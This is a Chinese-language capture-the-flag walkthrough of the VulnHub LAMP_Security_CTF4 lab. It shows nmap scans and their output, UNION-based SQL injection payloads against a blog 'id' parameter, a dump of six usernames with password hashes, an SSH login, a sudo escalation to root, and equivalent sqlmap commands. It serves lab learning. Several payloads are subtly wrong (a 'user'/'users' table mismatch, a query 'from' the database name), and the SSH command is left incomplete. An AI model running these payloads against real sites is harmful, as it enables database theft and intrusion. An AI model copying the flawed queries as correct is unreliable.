






# 前言

### 靶场介绍

超级简单的一台机器，没什么难度，考验 SQL 注入。

### 靶场信息

| 字段     | 值                                                   |
| ------ | --------------------------------------------------- |
| 靶机名    | LAMP_Security_CTF4                                  |
| 靶机 IP  | 192.168.200.133                                     |
| 靶机 URL | https://www.vulnhub.com/entry/lampsecurity-ctf4,83/ |
| 下载（镜像） | https://download.vulnhub.com/lampsecurity/ctf4.zip  |

# 1.信息收集

## 1.1.Nmap信息扫描

### 端口扫描

```bash
nmap -sT -p- --min-rate 10000 192.168.200.133 -oA ports
```



### 详细信息

```bash
nmap -sT -sC -sV -O -p22,25,80,631 192.168.200.133 -oA detials
```



### 漏洞扫描

```bash
nmap --script=vuln -p22,80,25 192.168.200.133 -oA vuln
```

```bash
# Nmap 7.95 scan initiated Fri Aug 14 11:18:24 2026 as: /usr/lib/nmap/nmap --privileged --script=vuln -p22,80,25 -oA vuln 192.168.200.133
Pre-scan script results:
| broadcast-avahi-dos:
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 192.168.200.133
Host is up (0.00015s latency).

PORT   STATE SERVICE
22/tcp open  ssh
25/tcp open  smtp
| smtp-vuln-cve2010-4344:
|_  The SMTP server is not Exim: NOT VULNERABLE
80/tcp open  http
|_http-trace: TRACE is enabled
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.200.133
|   Found the following possible CSRF vulnerabilities:
|
|     Path: http://192.168.200.133:80/
|     Form id:
|     Form action: /index.html?page=search&title=Search Results
|
|     Path: http://192.168.200.133:80/index.html?page=search&title=Search Results
|     Form id:
|     Form action: /index.html?page=search&title=Search Results
|
|     Path: http://192.168.200.133:80/index.html?page=blog&title=Blog
|     Form id:
|     Form action: /index.html?page=search&title=Search Results
|
|     Path: http://192.168.200.133:80/index.html?page=research&title=Research
|     Form id:
|     Form action: /index.html?page=search&title=Search Results
|
|     Path: http://192.168.200.133:80/index.html?title=Home Page
|     Form id:
|     Form action: /index.html?page=search&title=Search Results
|
|     Path: http://192.168.200.133:80/index.html?page=contact&title=Contact
|     Form id:
|     Form action: /index.html?page=search&title=Search Results
|
|     Path: http://192.168.200.133:80/?page=blog&title=Blog&id=6
|     Form id:
|     Form action: /index.html?page=search&title=Search Results
|
|     Path: http://192.168.200.133:80/?page=blog&title=Blog&id=5
|     Form id:
|     Form action: /index.html?page=search&title=Search Results
|
|     Path: http://192.168.200.133:80/?page=blog&title=Blog&id=7
|     Form id:
|     Form action: /index.html?page=search&title=Search Results
|
|     Path: http://192.168.200.133:80/?page=blog&title=Blog&id=2
|     Form id:
|_    Form action: /index.html?page=search&title=Search Results
| http-sql-injection:
|   Possible sqli for queries:
|     http://192.168.200.133:80/?page=blog&title=Blog&id=6%27%20OR%20sqlspider
|     http://192.168.200.133:80/?page=blog&title=Blog&id=5%27%20OR%20sqlspider
|     http://192.168.200.133:80/?page=blog&title=Blog&id=7%27%20OR%20sqlspider
|_    http://192.168.200.133:80/?page=blog&title=Blog&id=2%27%20OR%20sqlspider
| http-enum:
|   /admin/: Possible admin folder
|   /admin/index.php: Possible admin folder
|   /admin/login.php: Possible admin folder
|   /admin/admin.php: Possible admin folder
|   /robots.txt: Robots file
|   /icons/: Potentially interesting directory w/ listing on 'apache/2.2.0 (fedora)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.2.0 (fedora)'
|   /inc/: Potentially interesting directory w/ listing on 'apache/2.2.0 (fedora)'
|   /pages/: Potentially interesting directory w/ listing on 'apache/2.2.0 (fedora)'
|   /restricted/: Potentially interesting folder (401 Authorization Required)
|   /sql/: Potentially interesting directory w/ listing on 'apache/2.2.0 (fedora)'
|_  /usage/: Potentially interesting folder
MAC Address: 00:0C:29:E2:A7:B1 (VMware)

# Nmap done at Fri Aug 14 11:21:14 2026 -- 1 IP address (1 host up) scanned in 169.39 seconds

```

细看 Nmap 的漏洞扫描数据，已经提示目标的 Web 服务上存在 SQLi 的漏洞，后续只要针对这个进行验证。


# 2.权限立足

### 2.1.SQL 注入

blog 页面的 `id` 参数直接拼在 URL 上（`?page=blog&title=Blog&id=6`），先测一下是不是数字型注入——顺着这个思路用 `order by` 挨个试字段数，定下字段数之后，紧接着要搞清楚回显到底落在第几列，不然后面塞进去的东西根本看不到结果。于是用 `select 1,2,3,4,5` 占坑测一下：
 

 
回显点落在第 3 列，后面所有联合查询就统一把真正想要的内容堆在这个位置。
 
有了回显点，先探一下环境，把当前数据库名挖出来看看：
 
```
http://192.168.200.133/?page=blog&title=Blog&id=-1 union select 1,2,database(),4,5 -- -
```
 
拿到库名 `ehks`。顺藤摸瓜，接着查这个库下都有哪些表：
 
```
-1 union select 1,2,group_concat(table_name),4,5 from information_schema.tables where table_schema=database() -- -
```
 
结果是 `blog,comment,user` 三张表，`user` 这张名字上就写着是重点，直接盯着它查字段：
 
```
-1 union select 1,2,group_concat(column_name),4,5 from information_schema.columns where table_schema=database() and table_name='users' -- -
```
 
字段拿到了：`user_id,user_name,user_pass`，账号和密码字段都齐了，可以直接开始带数据。先拿 `user_id=1` 试个水，确认这条路能不能走通：
 
```
union select 1,2,group_concat(column_name),4,5 from ehks where user_id=1 -- -
```
 
返回了第一条：`dstevens-02e823a15a392b5aa4ff4ccb9060fa68`，说明这条路是通的。既然单条能拿到，把 `where user_id=1` 这个限制条件去掉，用同样的方式把整张表一次性提取出来，最终拿到 6 组账号密码：
 
| 账号 | 密码哈希 |
| --- | --- |
| dstevens | 02e823a15a392b5aa4ff4ccb9060fa68 |
| achen | b46265f1e7faa3beab09db5c28739380 |
| pmoore | 8f4743c04ed8e5f39166a81f26319bb5 |
| jdurbin | 7c7bc9f465d86b8164686ebb5151a717 |
| sorzek | 64d1f88b9b276aece4b0edcc25b7a434 |
| ghighland | 9f3eb3087298ff21843cc4e013cf355f |


---
### 2.2.SSH 登入

直接使用 SSH 登入表示缺少一些协议，需要对一些协议进行指定。

```
ssh \
-oHostKeyAlgorithms=+ssh-rsa \
-oPubkeyAcceptedAlgorithms=+ssh-rsa \
-oKexAlgorithms=+diffie-hellman-group14-sha1 \
```



成功登入

---
# 3.提权

这次提权完全没有什么操作，登入的用户 `dstevens`，拥有完整的 sudo 权限，现在直接 sudo su 切换成 root 用户即可，到此就完成了这台靶机的全部内容。




# 4.补充

### 4.1.SSH 连接参数说明

补充一下前面 ssh 连不上时用到的这三个参数具体是什么意思：

```
ssh \
-oHostKeyAlgorithms=+ssh-rsa \
-oPubkeyAcceptedAlgorithms=+ssh-rsa \
-oKexAlgorithms=+diffie-hellman-group14-sha1 \
```

- `-oHostKeyAlgorithms=+ssh-rsa`：

	允许客户端接受服务端使用 `ssh-rsa` 算法的主机密钥。新版 OpenSSH 客户端（8.8 起）默认把 `ssh-rsa` 从主机密钥算法列表里移除了，老靶机的 sshd 版本低，还在用这个算法做 host key，不加这个参数会在验证主机密钥阶段直接断开。
	
 - `-oPubkeyAcceptedAlgorithms=+ssh-rsa`：
	 
	 允许客户端在公钥认证阶段使用 `ssh-rsa` 签名算法。道理和上面一条类似，是新版 OpenSSH 把 `ssh-rsa` 从默认可接受的公钥签名算法列表里移除后，需要手动加回来，否则公钥认证会失败。
	 
- `-oKexAlgorithms=+diffie-hellman-group14-sha1`：
	
	允许客户端使用 `diffie-hellman-group14-sha1` 做密钥交换算法。这个算法同样在较新版本的 OpenSSH 里被移出了默认列表，老服务端如果只支持这个 KEX 算法，不加这条参数在密钥交换阶段就会直接报 "no matching key exchange method found"。

### 4.2.使用 sqlmap 注入

枚举当前数据库

```bash
sqlmap -u 'http://192.168.200.133/?page=blog&title=Blog&id=1' \
-p id \
--batch --current-db
```


枚举数据表的列名

```bash
sqlmap -u 'http://192.168.200.133/?page=blog&title=Blog&id=1' \
-p id \
--batch --columns -D ehks
```


导出数据表条目

```bash
sqlmap -u 'http://192.168.200.133/?page=blog&title=Blog&id=1' \
-p id \
--batch --dump -T user   
```



[sqlmap使用手册-CN](https://sqlmap.highlight.ink/usage/enumeration)
